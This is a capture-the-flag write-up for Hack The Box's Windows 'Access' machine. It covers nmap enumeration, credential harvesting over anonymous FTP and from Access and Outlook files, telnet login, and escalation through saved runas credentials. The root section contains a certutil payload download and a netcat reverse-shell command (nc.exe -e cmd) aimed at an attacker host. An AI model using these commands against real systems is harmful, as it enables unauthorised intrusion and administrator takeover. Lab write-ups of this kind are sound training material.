 ```yaml
---
title: "[HTB] Machine: Access"
description: "[HTB] Machine: Access"
date: 2023-06-12
menu:
  sidebar:
    name: "[HTB] Machine: Access"
    identifier: htb-machine-access
    parent: htb-machines-windows
    weight: 10
hero: images/access.png
tags: ["HTB"]
---
```


# Access
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV 10.10.10.98    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 14:20 BST
Nmap scan report for 10.10.10.98 (10.10.10.98)
Host is up (0.094s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet  Microsoft Windows XP telnetd
| telnet-ntlm-info: 
|   Target_Name: ACCESS
|   NetBIOS_Domain_Name: ACCESS
|   NetBIOS_Computer_Name: ACCESS
|   DNS_Domain_Name: ACCESS
|   DNS_Computer_Name: ACCESS
|_  Product_Version: 6.1.7600
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: -29s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds
```
- Web Server

![](./images/1.png)

## Foothold/User
- Let's enumerate `ftp`
  - Traverse directories and download everything

![](./images/2.png)

- We see `Access Control` archive
  - I tried unzipping with `unzip`, but had no success
  - Using `7z` was more successful, since it asked for password
  - So now we need to look for password

![](./images/3.png)
![](./images/4.png)

- Let's check `backup` file
  - It's a `Microsoft Access Database`
  - We can use `mdbtools`
    - `sudo apt install mdbtools`
  - List the tables

![](./images/5.png)

- We see `auth_-_user` table
  - Let's dump it

![](./images/6.png)

- We can try each password to unzip the `Access Control` archive

![](./images/7.png)

- After unzipping we get a `pst` file, which is `Microsoft Outlook email folder`
  - I used `readpst`
  - `sudo apt install pst-utils`

![](./images/8.png)

- It's a plain text file
  - Just open it with  `less 'Access Control.mbox'`
  - We see an email with creds

![](./images/9.png)

- We have open `telnet` port
  - Let's connect with obtained creds

![](./images/10.png)

## Root
- Let's enumerate for privesc
  - We find a interesting `lnk` file
  - It runs `runas` with `savecred` options
  - Let's check `cmdkey` for saved credentials

![](./images/11.png)
![](./images/12.png)

- We see that we have `ACCESS\Administrator`'s credentials saved
  - Let's use them and get our root
  - Download nc: `certutil -urlcache -f http://10.10.16.3:8000/shell.ps1 shell.ps1`
  - And start reverse shell: `runas /user:ACCESS\Administrator /savecred "nc.exe 10.10.16.3 6666 -e cmd"`

![](./images/13.png)
![](./images/14.png)

- Check [0xdf's blog](https://0xdf.gitlab.io/2019/03/02/htb-access.html) for other privesc paths